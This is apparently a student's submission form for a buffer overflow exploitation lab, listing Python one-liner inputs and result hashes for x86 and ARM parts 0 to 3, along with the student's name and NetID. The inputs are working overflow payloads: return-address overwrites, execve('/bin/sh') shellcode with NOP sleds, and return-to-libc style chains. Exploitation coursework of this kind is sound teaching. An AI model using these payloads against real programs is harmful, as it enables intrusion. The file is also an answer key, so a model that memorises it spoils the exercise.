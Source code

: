 # Submission form

Name: James Wei
NetID: jaw160230

## x86

### Part 0
Hash

5ce9894ec2edb00aeca78769a904eec3

### Part 1

* Input 

python -c 'print b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + b"\xcb\x85\x04\x08"' | ./part0x01

* Hash

231fc66d3993582eb4b56788c1f2ee15

### Part 2

* Input

python -c 'print b"A" * 32 + b"\x50\xc5\xff\xff" + b"\x90" * 100 + b"\x32\xc0\x50\x68\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"' > /tmp/JamesInput

* Hash

1c1043b699e49e89c7faafd93efb8ccd

###  Part 3

* Input

python -c 'print b"\x11" * 32 + b"\x50\xa2\xe1\xf7" + b"\x90\x90\x90\x90" + b"\xcf\xb3\xf5\xf7" + b"\x20\xd4\xe0\xf7"' > /tmp/JamesInput

* Hash

71d885f37d30dbc2ebf1de9c374d540f

## ARM 

### Part 0

Hash
7343273d91f977f10b6927709ddffb8e
### Part 1
* Input

python -c 'print b"AAAABBBBCCCCDDDDEEEEFFFF" + b"\xa0\x05\x01\x00"' | ./part0x01


* Hash

8334e4cda54f0631bf730c02ed49d130

###  Part 2


* Input

python -c 'print b"\x11" * 24 + b"\x1c\xe5\xff\xbe" + b"\xe1\xa0\x10\x01" * 60 + b"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"' > /tmp/JamesInputs

* Hash

4f1c7f73637a4f3d09c3258529bacf2b

### Part 3

* Input

python -c 'print b"\x22" * 24 + b"\xfc\x81\xeb\xb6" + b"\x6c\xab\xf6\xb6" + b"BUFF" + b"\xc8\x79\xe7\xb6"' > /tmp/JamesInput

* Hash

65f8e63a7a834467209678c2131b63b9

